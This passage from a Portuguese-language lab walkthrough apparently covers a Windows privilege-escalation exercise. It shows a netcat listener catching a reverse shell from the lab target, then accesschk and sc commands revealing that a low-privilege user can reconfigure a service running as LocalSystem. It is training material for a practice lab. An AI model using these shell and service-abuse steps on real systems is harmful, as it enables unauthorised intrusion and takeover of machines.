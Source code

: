 ```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~                                                                                                           19:24:47
╰──➤ nc -nvlp 53
listening on [any] 53 ...
connect to [10.18.20.23] from (UNKNOWN) [10.10.220.211] 49861
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\PrivEsc>

```

---

## **<a id="3"> • Service Exploits - Insecure Service Permissions.</a>**

Agora que temos acesso a maquina alvo, vamos explorar uma das vulnerabilidade encontrada no laboratório.

Vamos começar verificando as permissões do nosso usuário através do programa `accesschk.exe`.

```cmd
C:\PrivEsc>C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc
C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc
RW daclsvc
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_CHANGE_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_START
        SERVICE_STOP
        READ_CONTROL
```

Aqui podemos ver que o usuário `user` tem permissão de `SERVICE_CHANGE_CONFIG`

Agora vamos utilizar o `sc qc daclsvc` para verificar as configurações do serviço.

```cmd
C:\PrivEsc>sc qc daclsvc
sc qc daclsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: daclsvc
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files\DACL Service\daclservice.exe"
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : DACL Service
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
```
